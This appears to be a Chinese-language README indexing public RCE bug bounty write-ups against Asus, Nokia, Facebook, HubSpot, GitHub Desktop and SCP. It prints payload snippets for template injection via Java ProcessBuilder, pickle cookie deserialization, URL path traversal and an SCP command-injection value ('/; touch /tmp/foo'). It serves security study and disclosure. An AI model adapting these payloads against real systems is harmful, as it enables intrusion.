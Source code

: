 # RCE
远程代码执行(RCE)案例合集  
仅供参考
## :ledger: 索引及其简述
1. [**从寻找笔记本电脑到寻找远程代码执行**](https://medium.com/@aniltom/from-hunting-for-a-laptop-to-hunting-down-remote-code-execution-72cce2761846)
发现http://stw.asus.com/子域名403且显示iis服务器5.30  
通过WEBDEV的远程代码执行漏洞进行RCE（CVE-2017-7269）  

2. [**nokia.com 中的 RCE**](https://medium.com/@sampanna/rce-in-nokia-com-59b308e4e882)  
通过yandex发现子域http://emop.ext.net.nokia.com  
使用https://suip.biz/在线扫描发现老版本drupal  

3. [**Facebook 服务器上的远程代码执行**](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/)  
sentryagreements.thefacebook.com域使用Sentry日志应用采用Django框架编写  
调试信息为关闭导致env泄露，通过分析发现可以用任意 pickle 内容伪造我们自己的 cookie  
编写POC获取现有sentrysid cookie 的内容，并将其内容替换为在反序列化时将运行os.system(“sleep 30”)的任意对象  

4. [**Hubspot 中的 RCE 与 HubL 中的 EL 注入**](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)  
{{7*7}} 返回了'49'  
{{'a'.getClass()}}返回java.lang.String  
通过{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command( \\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}  
获取RCE  

5. [**GitHub 桌面 RCE (OSX)**](https://0xacb.com/2018/12/04/github-desktop-rce/)  
打开文件在github客户端这个功能  
x-github-client://openRepo/https://github.com/github/training-kit?branch=master&filepath=README.md  
filepath路径劫持../../../../../../../../../../../Applications/Calculator.app导致打开计算器  

6. [**深入研究 SCP 命令注入**](https://dylankatz.com/digging-in-to-scp-command-injection/)  
对于SCP命令scp -f /some/user/provided/path可被路径劫持  
如path为/; touch /tmp/foo  
劫持为scp -f /; touch /tmp/foo  
形成命令注入  